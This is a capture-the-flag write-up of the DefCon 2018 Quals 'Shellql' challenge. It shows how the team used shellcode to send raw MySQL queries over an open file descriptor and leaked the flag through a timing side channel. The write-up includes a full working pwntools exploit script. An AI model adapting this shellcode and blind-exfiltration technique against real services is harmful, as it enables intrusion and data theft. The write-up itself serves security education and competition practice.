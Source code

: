 # Shellql

I came across this challenge while playing DefCon2018 Quals with mHackeroni team.  
Me, wert310 and mortic solved this challenge together in quite a weird way....  Anyway, we enjoyed it a lot :P  
That's a quick write-up we made for the organizers.  


![alt text](./images/internal_server_error.png)
(And that's the image that tormented us... maybe there was an easier way)

## Challenge

The challenge, reachable at http://b9d6d408.quals2018.oooverflow.io/,
provides a link and a `shellme.so` file.
The website accepts a shellcode as `POST` input and passes it to the `shellme` function
defined in the dynamic library.

### Problems
As soon as we tackled the challenge, we realized we were not able to make any request succeed, all
of them would return a 500 error.
To complicate things even further, the `prclt(22,1)` call in the library was setting seccomp in
strict mode before executing the shellcode, so we could only do
`read()`, `write()` and `exit()` calls.

We decided not to waste any time understanding the error and went for an infinite loop to
test whether our shellcode was executing correctly or not.

### Idea
Our only shot to get the flag was to interact with the mysql server, but we didn't want to
build any c++/php object.
Through reproducing the challenge in a local environment, under `strace`, we
noticed that a file descriptor (fd 4) was opened after the connection to the
database, so we could write raw mysql commands (using the mysql protocol) to this fd.

### Exploit
We decided to ask (`write()`) for `select * from flag` to the mysql fd, and then to
write (`read()`) the result of the query into the stack.

After that, we wanted to search for the `flag` word in memory (that would have been the name
of the table written in the response) and then for `OOO{` and `}` in order to be sure we
got the right fd.

To exfiltrate data from the stack we implemented a timing attack. Our initial goal was to
implement a binary search: we would hang the process in an infinite loop in case we `cmp`ared
the character in the stack with a smaller/equal char or we would let the process crash.

At the end we were just too lazy to do so: we knew we were missing 66 Bytes of flag
beetween `{` and `}` and we even knew the offset, so we wrote a script to brute'em all \0/.

Here's our script:
```python
from pwn import *
import requests
import time
import sys

URL = 'http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php'

def make_query():
    q = "\24\0\0\0\3select * from flag;"
    blocks = [q[i:i+8] for i in range(0, len(q), 8)]
    unp = []
    for b in blocks:
        unp.append(hex(u64(b)))
    return unp

shellcode ="""
mov rbp,rdi

xor rdi, rdi
add rdi, 0x4

mov rax, 0x3b67616c66206d6f
push rax

mov rax,0x7266202a20746365
push rax

mov rax, 0xdeadbeefcafebabe
mov rdx, 0xb2c8cdeccafebaaa
xor rax, rdx
push rax

mov rsi, rsp

xor rdx,rdx
add rdx, 24
xor rdi, rdi
add rdi, 0x4
xor rax, rax
inc rax
syscall

xor rax,rax
mov rsi, rsp
add rdx, 77777777

syscall
"""

def test_fn(index, char):
    payload = shellcode +     """
    xor rax,rax
    mov al, {}

    add rsp, rax
    movzx rax, byte ptr [rsp - 1]
    mov dl, {}

    cmp dl, al
    je LOOP
    jmp SEGV
    LOOP: jmp LOOP
    SEGV: pop rax
    """.format(index, char)
    payload = asm(payload, arch="x86_64")
    if any(ord(ch) == 0 for ch in payload): print "AIUTO"

    start_t = time.time()
    try:
        requests.post(URL, timeout=3, data={'shell': payload})
    except requests.exceptions.ReadTimeout :
        pass
    except requests.exceptions.ConnectionError :
        pass

    end_t = time.time()
    print >> sys.stderr, str(end_t - start_t)
    if end_t - start_t > 1.3:
        return True
    return False

def get_char(idx):
    for i in "O{abcdefghijklmnopqrstuvwxyz_, 0123456789!\'}":
        if test_fn(idx, ord(i)):
            print >> sys.stderr, i
            return i
    return "X"

def multiprocess_get_flag(beg, end, n_processes):
    from multiprocessing import Pool
    pool = Pool(processes=n_processes)
    return ''.join(pool.imap(get_char, range(beg, end)))

def get_flag(beg,end):
    flag = ""
    for j in range(beg, end):
        flag += get_char(j)
        print flag
    return flag

if __name__ == "__main__":
    #print get_flag(70, 140)
    print multiprocess_get_flag(69, 140, 4)
```

This method was not 100% reliable but running it a couple of times gave us the correct flag.

At the end the flag was:
`OOO{shellcode and webshell is old news, get with the times my friend!}`
